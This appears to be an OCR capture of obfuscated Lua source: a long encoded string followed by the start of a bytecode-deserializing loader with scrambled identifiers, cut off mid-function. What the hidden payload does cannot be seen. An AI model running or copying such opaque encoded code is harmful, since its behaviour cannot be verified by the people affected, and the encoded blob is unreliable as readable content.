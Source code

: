 =JeVx,0=f<ixxEWV{+=W?{T Je=Ie++ -4IViex=WV{xEEI T+Ji={e++e<IIWi x4WV{?E= ETxJE=Je?+{_{ITiex=TKkeIii?Te&T4#ex+EAII 4ee4x bII=E?TEJ44Ve?+=VoIxE{iJW?W+E{ TTeJ=I?EJ VJVGW4+e{xu4E{TETViWx{e=4WI+?JJ4V+VTVV/{ixx?WW9J ?i /TeJI4=+W+EV={ViJ?pW+Ex={ {J+VW4IiexE4IIxET?xTV{e=E V+ J{e(??WJ{{=T eT=n=J+EI eT=II=I?xWE{J=WE=?*T={i4sexT4V64EeEWxIJE+?=ToJe4We +xyeIWiExiVJ{iEJ?4TW9 I=eJx+ViI4=;eixeV 4xE= xWJJV=i eT=VT4Iiex4Jx=I I+W_ 4EEx J+ejxE   WJJ+=i 4 ?WI:V=xeT+xVV4eiExVW I{eVx+Yi4{iTx?WeL {U+4TIVJ{iE=WxtIJ{4+eW+TP =+?ITWJ 4{Je+?b=Izi{xEVJ{+Ei {TTJi=IeW+ a4IVi? TW({xEE VT+JE={eTx sIIWi xIWV{?E=ikTIJE=Je++is{IEiexIT4{ E{ VT?J=4+ex EWWI+i=x{W+{e=  W? V=4Vee+=VWIxi{xJx+JWE{ xTe,W4WeI+4+VI?i=?WWxJWEJ  TiJ{4xee+IVWIii4?WW?{=Ve xTEJJ4xei+{VTIeiI?WW {4=4 ?T=n:4 EW+JV+Iii4ix+EWxITEE?JW?JE=+ +2J4ie{xeVI{?E??=TVJ 4Cex+iVeJIE(?xWE{II4EI WTTJ=e +V_?VTIeiIViVi{TEI TWxJQ4( ++x4=4xi?xi{,Ie=x iJTJV4++TV={JET?eWIJo4+iI?4W=Ii=Jei+TLx4Ie4+JW {VE4 9:iIiiVx?V=I{IeeJ?TV {xE  TWEJ4=Tei+_{TE4?=TAJx=eee VWEJx=exEWW{WE ?4WJ!+I4EI?ED4JTi+xiV{{V=4ixx I 4xEJ iTJJV=4e4+KVVeiiEx4W?{e?W?JWIb+ ? I+xPEIe+Jx We{{E4?ITV=Tii?eWV{?E=?{+VWT{IEJWiVV<W4ee?+ w=E{ iT?J=4*eT+IT{MW4IeTxVV4=b WT J44Ve?+=W+Vxi4?+W+{iE{ V+4W?{JE4xeVVI?i= WW={EEJ +TIJ{4TeexJWiI iI?VWe{==B xTEvT4+ei+{VxIei{?WW ^ =V ?T=Qn4xeE+JT+JWi{?TWe{I=W ET4UVI=e=xWVxIEiJ?eWiV{4I eTJwW4Ie4xiV?K==J?xW4{J=I i+xcTJeEXxWViI4E???W4Jl{x ETJw?4iiixTWWIIEW?iW4JV=? I+Qt?4EeJ=4ViI{ET?iWIJW=  4+V9?4=i(xxVEIJE+?=W{JT=e I?+w 44iVx?V={PEx?Ei J+=i {++de4IiWx V4{VE??4TEJx=E J+?W?4{iTxeV=V+4iE+xWWi{{Ex iTTJTe{+e.II+ii?VW=J3E{ VT=KT4WeexWVeIxi= HTiJe=IeW+xVxJ{= eW+x{ = ?JT+Ji=4=??I+VJx4TexxVMeIEiV? V{4V=J+iD{ITi? V+Eu4e4iIxJWi{=?x {T{=+4%eTx 4e{ViEx4I444E=e+J-JI==iW(+1=ITie??II{x=? 4TEJ==J+kxiVieJEI?eTTJx?e 8T{dj44eTxx94{WiiV=sV44ei+{VTI?EBiVxxWzI?E+?JKW4EeE+JV+I E4e+xxVW=+ 4T4MV4?ei?+T{v 4+??TE{{=T eT=HJ{e=  ?W+FEI+e{xyVeI iE WW4J ==x+W I4EV??WiJ=IE=TVJVvJW=4 {Je{FIVi xxV?IE {+rcx4EeJx+ViJW{T +WIJW= e{=ej?4=iBxeVEIJE+?iTWJT=i I+W% 44iVx?WI{AEx?ETVJ+=E {+TVx4IiWx VI{VE??=xH%e=E J++ai4{i=xeVI{ E ?{TVJ?==e++xTEI+i+x=V{{iEe ?TWW I=eV+ew=Ixixx{VJV+=??{TxJe=JeW+e)42Vi?x=WW{x=V?JT{Ji={ex+e_IIWiix4WW{?E=IeTxJE=Jex+iu{ITiexIWW{ E4 TT?J=4Ne xehJI+iix4W{_I{?iV+EVIJ E=?JJ{aiIWiTW?JTE{ TTeJ=Ji=i x+xJ=4VeixVvJ=+ +TiJ{IxIe+IVTI i{?VW?{=4W iTEwV4+eE+{VTIeiI TW {J=V ?T=)t4xeE?iV+IEi{??We{{=W  +43V4?e=xVVxIEiJ?+Wi{{=T i+&qW4 e4xTVEI=E&?xWeJEIi=W+,F44eeIxWVx{ 4?iJT+V{{xEJ TH?44e{xTVeI=4V?{TJJV=? =xW?W4EeJx+V4I{ET?e+IJ =  4+VU?4=iWxxW4JEE+?EW{J?=e I+WW { iVx V={VEx?=WJJE={ {+T.eI+iWxeV4{WE??Je4Jx=E J+=ci4JiTx4 i{WE ?4+VJ?=4ed+xTi4Ji+xiV{{TEe?I++x==4eW+?0{I3ixxETJ{eEi?JTTJi=Ie++ b4IWi?x=WG{ EE 9T+JiI?eT+elIITi x4WV{?={ ATxJE4Ke++EL{ITEexIWW{ E{ VT?J=4>i4+E:JI+iEx{W+{e=V4{T J44Vie+=VVIxiEe{W+{iE{ ?TeJI4We e4VVI?i=?VWx{=EJ +EVJ{4Tee+{VWI i4?VW?{==U x+VJJ4+eixVVTIeiI?WW {4EV=xTIZx4xeE+JeeTEOa4JeIJ1=W  T48V4?e=4)xxI4El?+Wi{{=V E+T&W4 e44+eE+IpiITiVJV=+ iT{!T4=eIxWV I4EV??W=T;{E ETJs+4i=IxTViIIEW? W4JV=?ei+UH 4EeJx+ViI{ETE=WIJT=  {+V:e4==?xJVE{CE+?JW{J+=e J+W,=WeiVx?V={?Ex?=WJJeVx {+ToeIEiWxeV4{VIx?=TVJx== J++-i4{EVxeVJ{WE ?4TVJ?4VJJ+xyI4Ji+xiVJ{TEE?ITWWE=4eV+?R=INixxEVJ+iEi?{TTJE=IeW+ )4ITi?x4Wr{eEE fT+JIVEeT+eNIDxi xIWV{?IE 8T?JE=Je++i^{ITE?xIW+{ E4 VT?J=4D4e+EVhI+i=x{Wx{eIT JT JI4V=i+=VVIxiJxJWe+xE{ TTeTl4Wee+4VV{ i=?VWx{EEJ +Ti54{Eee+{VW{Ii4?WW?{4=h ii?JJ4+ei?+VTIiiI??eT{4=V ??{Yj4?eE+J+TIiiJ?TW={I=W  T4xT4?eIxSVxIEiJ?+T=GW=T =TIQT4 e4xVWe{EEX?iWEJN=+ iT{FT{xeIxTV {7EV?eW=V?4i E+k5+{ e{x+Ve{VEW?=eeJV=? =x{5x4=eJxe xI{ET?e?6JW=e 4xTVi4=iVxxWHIJE+?i+k.?=e J+WG{44iVx?V=JVEx?IWJJ+=i {+TVE{diWx=V4{WE??=T5Ji4{ J+?&i2<iTxiVI{W=x?4T J?=4eX+xtE4J{JxiWx{TE4?ITWJ =4ei+?VTINiixEVJ{+Ei JTTvV=Iex+ o4IVi??{Wq{JEE?JT+Ji={eTx?1IIIi ?VWV{?E= A+VJE4=e++{Q{ITiexITJ{ =x V+WJ=4Wex+EWII+EVx{W={e=? WT x_4VeJ+=VxIxiExJW+J=E{ =Tekx4Wiu+4TV{=i=?eWxJWEJ  TiJ{I eex+VWI{i4?iW?{==T xT=JJ4EeixxVTI4= ?WWi{4I+ ?T46N4x3++JVxIiEv?TWe{I=WJVT4^V4?eIxyVxIEiJ44Wi{{=T iTIUW4 eIxVV?I=E-?xWE{J=E iT{ST4eEIxWViI4EV??W=JG=xeeTJ8 4ieJxTVeIIEW?=W4Jx=? 4+pAx4EeJx{Vi{VET?EWIJ+=  4++2?4Ii)xxVE{WE+?i++JT=e I+T/ 44iVx?V={2Ex?4T:JI=i {+TtEIxiWx V4IJEiiEx{WiIJEI ej=JliTxeVI{L4Si=??I?{TEV =WJEJ=ie xWmeIEiWx?I J-Ei?={=JT4+e4xV5i44EWVTmT{W==WeHJIVi?x=WH{xEEeT +J=4+eT+eQII/Edei+W/II- WTEJE=Je++ WWJ44xeWW+JeE4 VT?Ji4IE? xT+{W4eiW+4U{I?ixxeTH{E=x iVWJWiExJW+{ {}ix yV{Jx=E V+xJJ=JxEV+IiEH?xWIJ =4 ETI- 4Je{x+V{{+EV? T4f+4+ei+{VV{?={eJ+4{{=I ?T=rf4TeI {+?6=4Te?x44I=Ii4 x6E4?e=xRVx{iiJ?+Wi{{=T eTIWWI4e4xVV?I=E^?=WE{J=? i+tfT4eeIx?V u4=E??WIJD=I E+eY+JiEExTVEIIET? W{JV{? J+H; 4EiTx+W,I{IT?4WIJ+= eV+VLi4=i6x VEIJE+?=W{J+=e IEES 44iVx V={PEx?EWJJ+=i {+xBe4IiWxiTE{VE??=W{VI{{=T +T44eeW+ +V^=IEeJ?>WeIJ?{?4TV={EWiW+?fx={E Ti{J{I==+eVeIrixxEVIV 4{EWx?W+{?=W?iT=JW4e JW+{xEE?J+?WW={eT+e%JIWi x4TTJiE= VTxJ==Je++i%{TTiexIWW{iE4 WT?J=Weex+EmJIxiix{WT{eEI WT J44V");local n=0;u.RgoDPKnV(function()u.KSPOWqUl()n=n+1 end)local function e(d,e)if e then return n end;n=d+n;end local d,n,a=h(0,h,e,s,u.mpamdcme);local function f()local d,n=u.mpamdcme(s,e(1,3),e(5,6)+2);e(2);return(n*256)+d;end;local b=true;local b=0 local function p()local e=n();local n=n();local l=1;local t=(d(n,1,20)*(2^32))+e;local e=d(n,21,31);local n=((-1)^d(n,32));if(e==0)then if(t==b)then return n*0;else e=1;l=0;end;elseif(e==2047)then return(t==0)and(n*(1/0))or(n*(0/0));end;return u.TuaEJfnE(n,e-1023)*(l+(t/(2^52)));end;local _=n;local function z(n)local d;if(not n)then n=_();if(n==0)then return'';end;end;d=u.jSKozaqJ(s,e(1,3),e(5,6)+n-1);e(n)local e=""for n=(1+b),#d do e=e..u.jSKozaqJ(d,n,n)end return e;end;local _=#u.ZnIoYuwU(c('\49.\48'))~=1 local e=n;local function le(...)return{...},u.QQpwuEUv('#',...)end local function ne()local c={};local s={};local e={};local b={s,c,nil,e};local e=n()local h={}for t=1,e do local d=a();local e;if(d==1)then e=(a()~=#{});elseif(d==3)then local n=p();if _ and u.iODCRWha(u.ZnIoYuwU(n),'.(\48+)$')then n=u.siUMpTTy(n);end e=n;elseif(d==2)then e=z();end;h[t]=e;end;for u=1,n()do local e=a();if(d(e,1,1)==0)then local o=d(e,2,3);local